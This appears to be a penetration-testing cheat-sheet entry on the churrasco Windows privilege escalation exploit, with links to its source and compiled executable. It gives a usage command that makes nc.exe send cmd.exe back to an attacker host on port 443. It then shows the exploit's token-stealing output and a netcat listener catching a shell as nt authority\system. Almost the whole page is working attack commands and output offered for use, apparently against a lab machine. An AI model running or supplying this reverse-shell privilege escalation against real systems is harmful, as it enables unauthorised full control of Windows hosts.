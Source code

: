 # Common Exploits

## churrasco

WMI Service Isolation Local Privilege Escalation Vulnerability

Targets: Microsoft Windows XP/VISTA/2003/2008

Link: [https://github.com/Re4son/Churrasco/](https://github.com/Re4son/Churrasco/) 

Compiled version:  [https://github.com/Re4son/Churrasco/raw/master/churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe)

Usage: 

Upload nc.exe and use churrasco to connect back:

```text
C:\wmpub>.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.47 443"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 684 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 700 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

On the NC listener:

```text
root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.14.
Ncat: Connection from 10.10.10.14:1038.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```







